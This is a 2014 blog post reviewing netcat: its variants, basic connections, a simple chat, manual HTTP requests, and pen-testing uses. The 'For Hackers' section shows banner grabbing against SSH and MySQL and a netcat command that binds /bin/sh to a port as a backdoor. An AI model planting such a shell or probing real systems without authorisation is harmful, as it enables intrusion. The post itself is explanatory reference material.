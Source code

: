 ```yaml
---
layout: post
date: 2014-03-05
title: Netcat Refresher
categories: hacking reference linux sysadmin
---
```


*Quick overview of the legendary Unix tool, netcat, with examples and applications*

## Introduction

[Netcat](https://en.wikipedia.org/wiki/Netcat) is a great tool for all things networking and is commonly nicknamed "the TCP/IP Swiss-army knife" due to its versatility and utility. An absolute must-know for sysadmins and hackers. In this article, I'll go over a few common uses I have for it that I frequently forget after not using it for a while, primarily for my own personal reference.

Before I begin, I should point out that there are a few variants on netcat that have slightly different options and behaviors but are all essentially the same in "spirit and functionality", as the [ncat](http://nmap.org/ncat/) man page describes it.

The original netcat comes from the OpenBSD package and was written by "Hobbit". This is the default version that comes with OS X and Ubuntu. The version that I use and will cover is the standard GNU Netcat, by Giovanni Giacobbi, which is a rewrite of the original. This available using [brew](http://brew.sh) on OS X. On Ubuntu it's called "netcat-traditional" which you can `apt-get` and then run with `nc.traditional`. Lastly, there is [ncat](http://nmap.org/ncat), which is a netcat implementation by our friends from the [nmap](http://nmap.org) team. It is designed to modernize netcat and adds features like SSL, IPv6, and proxying which aren't available in the original(s).

## Usage

At its core, netcat is a tool for creating arbitrary TCP connections, which looks like

    $ netcat [host] [port]

where host is either an IP Address or a domain name, and port is the TCP port to connect to.

You can also use netcat to do the reverse: listen for arbitrary TCP connections. This looks like

    $ netcat -l -p [port] [host]

Here, host is an optional parameter which lets you limit what host can create connections.

#### Example: Chat

Using these two behaviors, we can create a crude chat system. One one host, listen for connections on a port.

    $ netcat -l -p 1337

On the same one, in another terminal, connect to it on that port.

    $ nc localhost 1337

There won't be a prompt, but when you enter text and press enter, it will appear in the other terminal. You can just as easily do this between different hosts and have a super basic chat setup.

![](https://draftin.com:443/images/12181?token=V4hz4Qtwi_uM_-4ulkErwUudxL_qY8D2yxx-fPjLSffSc8-FV0FOVRlvd4psBi-fLricHlJLjufBWr6E91R_spQ) 

### Example: Curl-like behavior

You can also use netcat to emulate curl and interact with HTTP servers. Connect to the server on port 80 (or whatever port it's running on) and you can then type out the HTTP request to send to it. When you're finished, hit enter twice and it will send.

    [mark:~]{ nc example.org 80
    GET / HTTP/1.1

    HTTP/1.1 400 Bad Request
    Content-Type: text/html
    Content-Length: 349
    Connection: close
    Date: Wed, 05 Mar 2014 20:15:42 GMT
    Server: ECSF (mdw/1383)

    <?xml version="1.0" encoding="iso-8859-1"?>
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
    <head>
    <title>400 - Bad Request</title>
    </head>
    <body>
    <h1>400 - Bad Request</h1>
    </body>
    </html>

As you can see here, we sent a bare-bones HTTP request (`GET / HTTP/1.1`) which was successfully sent to the server. The server responded with a 400, because our request didn't contain enough information, but that's not important; if we had filled in the right headers, it would have responded with the home page for example.org.

## For Hackers

There are two applications for netcat that I find particularly useful in pen-testing situations.

### Recon

The first is helpful for the recon stage, which is essentially getting information on your target. Sometimes network services may give away version information when an arbitrary network connection is made. For example, OpenSSH by default gives away it's version information as well as information on the host, when you connect. For example,

    $ netcat 1.2.3.4 22
    SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.1

is typically what you might see. For an attacker, this is pretty valuable stuff! MySQL behaves similarly.

    $ netcat 1.2.3.4 3306
    J
    5.5.33-.?2|>\8��@x\E$"zeic2lmysql_native_password

The output isn't as clear as OpenSSH, but we can confirm that MySQL is indeed running, and we can infer that the version is "5.5.33". For information on removing these banners, check out my [blog post](http://blog.mark.lc/blog/2014/01/10/banner-hiding/) on it.

### Persistence/Access

The other application is when you have achieved command execution, but not exactly shell access. You can use netcat to create a nifty backdoor which you can externally connect to. To create the backdoor, we'll use the `-e` flag to tell netcat to execute a binary on receiving a connection. We want a shell, so we'll say `-e /bin/sh`. The whole command will look like:

    $ netcat -l -p 1337 -e /bin/sh

which will give you a backdoor on port 1337, which will then let you run commands upon connecting to that port. For a good example, check out my other [blog post](http://blog.mark.lc/blog/2014/03/01/ihackedit/) where I actually used this.

## Conclusion

That was a quick overview of netcat including its basic functionality and some example use cases. Thanks for reading!
